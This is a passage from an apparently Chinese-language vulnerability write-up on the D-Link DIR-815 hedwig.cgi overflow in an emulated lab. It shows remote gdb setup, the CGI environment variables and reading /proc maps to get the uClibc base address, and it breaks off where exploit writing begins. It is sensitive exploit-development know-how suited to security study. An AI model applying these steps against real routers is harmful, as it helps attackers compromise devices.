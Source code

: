 宿主机连接 gdbserver

    
    
    gdb-multiarch htdocs/cgibin  
    set architecture mips  
    target remote 192.168.100.2:8888 #对应qemu地址和端口

这里我们终于可以看到vmmap

![](/images/D-LINK DIR-815多次溢出漏洞/1752587187655.png)

接下来是确定libc的基地址，需要先把环境变量配置好，不然/htdocs/web/hedwig.cgi很快就执行完，进程立马就结束了，就得不到maps。

利用（注意根据会先pid规律，快速修改预测pid执行，否则maps地址数据不会出来）

    
    
    /htdocs/web/hedwig.cgi & cat /proc/pid/maps

**a &b
先执行a，在执行b，无论a成功与否都会执行b**。因为关闭了地址随机化，libc.so.0的基地址就是0x77f34000。这里的libc.so.0是指向libuClibc-0.9.30.1.so。所以libuClibc-0.9.30.1.so基地址为0x77f34000。

![](/images/D-LINK DIR-815多次溢出漏洞/1752587187709.png)

    
    
    export CONTENT_LENGTH="100"  
    root@debian-mipsel:~# export CONTENT_TYPE="application/x-www-form-urlencoded"  
    root@debian-mipsel:~# export HTTP_COOKIE="uid=1234"  
    root@debian-mipsel:~# export REQUEST_METHOD="POST"  
    root@debian-mipsel:~# export REQUEST_URI="/hedwig.cgi"  
    root@debian-mipsel:~# /htdocs/web/hedwig.cgi & cat /proc/pid/maps  
    [2] 1224  
    cat: /proc/pid/maps: No such file or directory  
    root@debian-mipsel:~# /htdocs/web/hedwig.cgi & cat /proc/1226/maps  
    [3] 1226  
    00400000-0041c000 r-xp 00000000 08:01 32694      /htdocs/cgibin  
    0042c000-0042d000 rw-p 0001c000 08:01 32694      /htdocs/cgibin  
    0042d000-0042f000 rwxp 00000000 00:00 0          [heap]  
    77f34000-77f92000 r-xp 00000000 08:01 547906     /lib/libc.so.0  
    77f92000-77fa1000 ---p 00000000 00:00 0   
    77fa1000-77fa2000 r--p 0005d000 08:01 547906     /lib/libc.so.0  
    77fa2000-77fa3000 rw-p 0005e000 08:01 547906     /lib/libc.so.0  
    77fa3000-77fa8000 rw-p 00000000 00:00 0   
    77fa8000-77fd1000 r-xp 00000000 08:01 546761     /lib/libgcc_s.so.1  
    77fd1000-77fe1000 ---p 00000000 00:00 0   
    77fe1000-77fe2000 rw-p 00029000 08:01 546761     /lib/libgcc_s.so.1  
    77fe2000-77fe7000 r-xp 00000000 08:01 547907     /lib/ld-uClibc.so.0  
    77ff5000-77ff6000 rw-p 00000000 00:00 0   
    77ff6000-77ff7000 r--p 00004000 08:01 547907     /lib/ld-uClibc.so.0  
    77ff7000-77ff8000 rw-p 00005000 08:01 547907     /lib/ld-uClibc.so.0  
    7ffd6000-7fff7000 rwxp 00000000 00:00 0          [stack]  
    7fff7000-7fff8000 r-xp 00000000 00:00 0          [vdso]

编写exp（注意是py2
